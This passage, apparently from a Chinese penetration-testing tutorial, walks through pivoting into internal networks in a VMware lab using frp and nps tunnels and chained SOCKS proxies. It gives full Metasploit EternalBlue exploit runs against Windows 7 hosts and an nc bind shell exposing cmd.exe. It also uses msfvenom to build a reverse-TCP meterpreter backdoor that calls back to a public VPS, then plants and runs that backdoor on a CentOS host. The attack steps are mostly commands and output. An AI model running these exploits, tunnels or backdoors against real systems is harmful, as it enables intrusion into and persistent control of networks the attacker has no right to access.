[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000

[socks9999]
type = tcp
remote_port = 9999
plugin = socks5
use_encryption = true
use_compression = true
```


启动frpc客户端

```
[root@localhost frp_0.37.1_linux_amd64]# ./frpc -c frpc.ini
```


kali设置代理

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf
[sudo] kali 的密码：

#添加代理
socks5 175.24.115.4 9999
```


kali基于代理成功访问到Win7-1:192.168.111.131，因为与Centos：192.168.111.142是同一网段


不能访问Win7-1:192.168.201.130


Ceonts：新建f2.ini服务端配置文件，并添加如下内容

```
[root@localhost frp_0.37.1_linux_amd64]# vi f2.ini
[root@localhost frp_0.37.1_linux_amd64]# cat f2.ini
[common]
bind_addr = 0.0.0.0
bind_port = 7000
[root@localhost frp_0.37.1_linux_amd64]#
```


Ceonts：启动frps服务端

```
[root@localhost frp_0.37.1_linux_amd64]# ./frps -c f2.ini
```


Win7-1：复制frp_0.37.1_windows_amd64.zip到Win7-1机器上，实际上通过代理探测到445端口开放，利用永恒之蓝拿到Win7-1权限

修改frpc.ini客户端配置如下：

```
[common]
server_addr = 192.168.111.142            #服务端为：Centos:192.168.111.142
server_port = 7000

[socks5_8888]                           #将socks5代理8888端口到服务器上
type = tcp
reomte_port = 8888
plugin = socks5
use_encryption = true
use_compression = true
```


启动frpc客户端

```
frpc.exe -c frpc.ini
```


可以看到Centos:192.168.111.142成功监听8888端口


成功监听8888端口

```
 netstat -pantu|grep fr
```


kali上修改/etc/proxychains4.conf配置文件

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf
[sudo] kali 的密码：

#添加如下一行
socks5 192.168.111.142 8888
```


kalij基于代理成功访问Win7-1:192.168.201.130网段

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap -Pn -sT -p 445 192.168.201.130
```


解释：

1、原本`Centos:172.31.50.224`就可被外网访问，

2、`Centos`然后安装`frpc客户端`，实现跨网段访问`Centos`的另一个网段：`192.168.111.142`(同时可以访问同一网段下的`Win7-1:192.168.111.131`)

3、`Win7-1`该机器上安装`frpc客户端`（服务端在`Centos`上），实现跨网段访问`Win7-1`的另一个网段：`192.168.201.130`(同时可以访问同一网段下的`Win7-2:192.168.201.131`)


同时可以访问Win7-2:192.168.201.131


基于代理开启msfdb

```
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run 
```

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp  #正向shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.131
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```


## 3.2 实战：内网穿透-三级代理


网络环境：

<table>
    <tr>
        <td>主机</td> 
        <td>IP</td> 
        <td>网卡</td> 
   	</tr>
    <tr>
        <td>Kali</td> 
        <td>172.31.50.223</td> 
        <td>桥接模式</td> 
    </tr>
       <tr>
        <td>vps</td> 
        <td>175.24.115.4</td> 
        <td>公网服务器</td> 
    </tr>
    <tr>
        <td rowspan="2">Centos</td>    
        <td >172.31.50.224</td>
        <td>桥接模式</td> 
    </tr>
    <tr>
        <td >192.168.111.142</td>
        <td>NAT模式</td> 
    </tr>
        <tr>
        <td rowspan="2">Win7-1</td>    
        <td >192.168.111.131</td>
        <td>NAT模式</td> 
    </tr>
    <tr>
        <td >192.168.201.130</td>
        <td>仅主机模式</td> 
    </tr>
    <tr>
        <td rowspan="2"> Win7-2</td> 
        <td>192.168.201.131</td> 
        <td>仅主机模式</td> 
    </tr>
        <tr>
        <td >192.168.77.128(新增)</td>
        <td>仅主机模式</td> 
    </tr>
        <tr>
        <td > Win7-3(新增)</td> 
        <td>192.168.77.129</td> 
        <td>仅主机模式</td> 
</table>


选择编辑-->虚拟网络编辑器-->添加网络-->vmnet2


Win7-2网卡设置：添加网卡，选择自定义-->VMnet2(仅主机模式)


ip配置成功


再开一台Win7-3:192.168.77.129，网络配置为：选择自定义-->Vmnet2(仅主机模式)


Win7-1:192.168.201.130 中修改frps.ini配置文件如下：

```
#添加以下一行
bind_addr = 0.0.0.0
```


启动frps服务端：

```
frps.exe -c frps.ini
```


Win7-2：修改frpc.ini配置文件

```
[common]
server_addr = 192.168.201.130
server_port = 7000

[socks5_7777]
type = tcp
remote_port = 7777
plugin = socks5
use_encryption = true
use_compression = true
```


启动frpc客户端

```
frpc.exe -c frpc.ini
```


Win7-1:192.168.201.130，成功监听7777端口


kali上修改/etc/proxychains4.conf

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf

添加如下一行
socks5 192.168.201.130 7777
```


成功访问Win7-2:192.168.77.128网段

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap -Pn -sT -p 445 192.168.77.128
```


成功访问Win7-3:192.168.77.129

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap -Pn -sT -p 445 192.168.77.129
```


漏洞利用：

```
┌──(kali㉿kali)-[~]
└─$ proxychains msfdb run
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.77.128
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```


成功获得Win7-3：192.168.77.129权限


也可以用nc测试目标Win7-3:192.168.77.129：

在Win7-3:192.168.77.129开启监听端口,kali中的nc位置:/usr/share/windows-binaries/nc.exe

```
nc.exe -Ldp 443 -e cmd.exe
```


基于代理nc连接Win7-3:192.168.77.129

```
┌──(kali㉿kali)-[~]
└─$ proxychains nc -v 192.168.77.129 443 
```


# 实战-nps内网穿透


中文文档地址：https://ehang-io.github.io/nps/#/?id=nps

github下载地址：https://github.com/ehang-io/nps/releases


## 下载nps：


上传并解压linux_amd64_server.tar.gz到公网服务机器上：175.24.115.4

```
[root@localhost ~]# mkdir nps
[root@localhost ~]# tar xf linux_amd64_server.tar.gz -C ./nps
[root@localhost ~]# cd nps/
[root@localhost nps]# ll
总用量 12020
drwxr-xr-x. 2 root root        114 10月 15 15:29 conf
-rwxr-xr-x. 1 test docker 12308480 4月   8 2021 nps
drwxr-xr-x. 4 root root         33 10月 15 15:29 web
```


## 启动nps服务端

需要修改配置文件conf/nps.conf

```
[root@VM-0-10-centos nps]# vi conf/nps.conf
```




解释：

```
##bridge
bridge_type=tcp          #协议类型
bridge_port=8024         #客户端连接服务端端口
bridge_ip=0.0.0.0			#谁都可以连
```


解释：

```
web_host=175.24.115.4    #可以是域名或ip
web_username=admin   #登录web的用户名
web_password=123      #登录web的密码
web_port = 8080      #访问web的端口
web_ip=0.0.0.0         #谁都可以连
```


可以直接.`/nps`运行


也可以通过服务的方式启动：

```
[root@VM-0-10-centos nps]# ./nps install   #安装
```

安装完成:


启动`nps start`


成功访问：http://175.24.115.4:8080/


## 启动客户端

在web上添加客户端配置（也可在客户端中conf下配置，然后会自动在web上添加配置）：本次直接在web上添加配置：


Kali:上传inux_amd64_client.tar.gz客户端并解压，修改配置文件并启动

```shell
┌──(kali㉿kali)-[~]
└─$ mkdir npc                #新建npc文件夹
┌──(kali㉿kali)-[~]
└─$ tar zxvf linux_amd64_client.tar.gz -C ./npc/     #解压
npc
conf/npc.conf
conf/multi_account.conf
┌──(kali㉿kali)-[~/npc]
└─$ ll
总用量 11736
drwxr-xr-x 2 kali kali     4096 10月 15 04:00 conf
-rwxr-xr-x 1 kali kali 12013568  4月  8  2021 npc
┌──(kali㉿kali)-[~/npc]
└─$ vi conf/npc.conf                       #修改配置文件

改为:
[common]
server_addr=175.24.115.4:8024              #修改为服务器ip

安装启动：
┌──(kali㉿kali)-[~/npc]
└─$ sudo ./npc install  -server=175.24.115.4:8024 -vkey=aaaaaa -type=tcp      #安装npc                                                           
[sudo] kali 的密码：

┌──(kali㉿kali)-[~/npc]
└─$ sudo npc start                       #启动npc

#或者直接启动
┌──(kali㉿kali)-[~/npc]
└─$ ./npc -server=175.24.115.4:8024 -vkey=aaaaaa -type=tcp    #vkey为：刚刚在web上设置的密钥
2021/10/15 04:35:46.739 [I] [npc.go:231]  the version of client is 0.26.10, the core version of client is 0.26.0
2021/10/15 04:35:46.857 [I] [client.go:72]  Successful connection with server 175.24.115.4:8024
```


## 成功在线：


## 添加隧道：TCP(22)


成功通过公网服务器8001端口ssh连接到内网Centos：172.31.50.224

```
ssh root@175.24.115.4 -p 8001
```


## 添加隧道：TCP(3389)


添加成功：


成功远程桌面到内网ip:172.31.50.102

```

┌──(kali㉿kali)-[~]
└─$ rdesktop -g 1440x900 -u admin -p 123 175.24.115.4:8002

ATTENTION! The server uses and invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.

     Issuer: CN=admin-PC


Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate the connection atempt will be aborted:

    Subject: CN=admin-PC
     Issuer: CN=admin-PC
 Valid From: Sun Aug 29 03:20:57 2021
         To: Mon Feb 28 02:20:57 2022

  Certificate fingerprints:

       sha1: a367c1fc93012195b6176e926637a04382964fb0
     sha256: e8c3a53ea7a40e515ce3abbb1c89c01252a9c609f6440deb95ea116f21bc6833


Do you trust this certificate (yes/no)? yes

```




## 添加web服务:主机可以直接使用ip


kali开启apache服务

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ sudo systemctl start apache2                                                                                                4 ⨯
[sudo] kali 的密码：
```


成功访问：http://172.31.50.101/，如果通过域名访问，确保/etc/hosts存在`172.31.50.101 cloud.guoguogewangzi.com`解析记录


## 添加隧道：TCP(4444)


生成后门

```
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ msfvenom -a x64  --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=175.24.115.4 LPORT=8003 -b "\x00" -f elf -o xuegod
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 175 (iteration=0)
x64/xor chosen with final size 175
Payload size: 175 bytes
Final size of elf file: 295 bytes
Saved as: xuegod
```


开始利用：

```shell
┌──(kali㉿kali)-[~/frp_0.37.1_linux_amd64]
└─$ sudo msfdb run                         #启动msfdb
msf6 > use exploit/multi/handler             #使用监听模块
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp   #设置反弹shell的payload
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.31.50.101       #设置本机ip为监听ip
LHOST => 172.31.50.101
msf6 exploit(multi/handler) > show options                     #查看详情

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.31.50.101    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
...
```


将xuegod后门上传至Centos:192.168.111.142并运行：

```
[root@localhost ~]# ls | grep xuegod
xuegod
[root@localhost ~]# chmod +x xuegod
[root@localhost ~]# ./xuegod
```


成功获取Centos:`192.168.111.142`权限


## 添加socks代理：


添加成功，即可在家里代理:`175.24.115.4:8004`访问公司内网：


修改/etc/proxychains4.conf

```
┌──(kali㉿kali)-[~]
└─$ sudo vi /etc/proxychains4.conf

添加以下一行
socks5 175.24.115.4 8004
```


成功访问公司内网:


**结束！**

